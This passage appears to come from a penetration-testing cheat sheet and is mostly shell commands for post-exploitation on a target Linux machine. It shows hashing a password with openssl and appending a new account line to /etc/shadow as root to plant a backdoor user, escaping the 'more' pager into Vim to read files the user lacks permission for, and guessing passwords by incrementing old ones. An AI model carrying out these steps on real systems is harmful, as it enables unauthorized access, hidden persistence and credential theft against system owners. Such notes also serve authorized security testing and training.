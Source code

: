     ```sh
    # -6: SHA512
    openssl passwd -6 -salt salt password
    ```

    Copy the output hash.

2. **Add New Line to /etc/shadow in Target Machine**

    You need to do as root privileges.

    ```sh
    echo '<new-user-name>:<generated-password-hash>:19115:0:99999:7:::' >> /etc/shadow
    ```

3. **Switch to New User**

    To confirm, switch to generated new user.

    ```sh
    su <new-user>
    ```

<br />

## Display the Content of Files You Don't Have Permissions

Using **"more"** command.

### 1. Make the Terminal's Window Size Smaller

### 2. Run "more" Command

The text like "--More--(60%)" will be appeared.

### 3. Press 'v' on Keyboard to Enter Vim Mode

### 4. Enter ':e ~/somefile'

<br />

## Password Guessing from Old One

```sh
password2021 -> password2022, password2023
april123 -> may123, june123
apple -> banana, orange
```
